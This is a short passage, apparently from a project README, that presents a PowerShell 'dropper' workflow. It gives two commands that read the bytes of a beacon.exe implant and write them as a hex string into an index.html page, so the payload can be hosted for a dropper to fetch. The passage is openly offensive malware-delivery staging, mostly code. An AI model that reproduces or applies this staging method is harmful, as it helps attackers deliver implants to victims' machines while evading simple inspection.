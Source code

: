 This is the dropper ps1 script.

Get the bytestream of the exe you want to host with:

```
[byte[]]$data = [System.IO.File]::ReadAllBytes('.\Desktop\beacon.exe') 
```

Then write it to our index.html page:

```
[System.IO.File]::WriteAllText('index.html',[System.BitConverter]::ToString($data).Replace('-',''), [System.Text.Encoding]::ASCII)
```
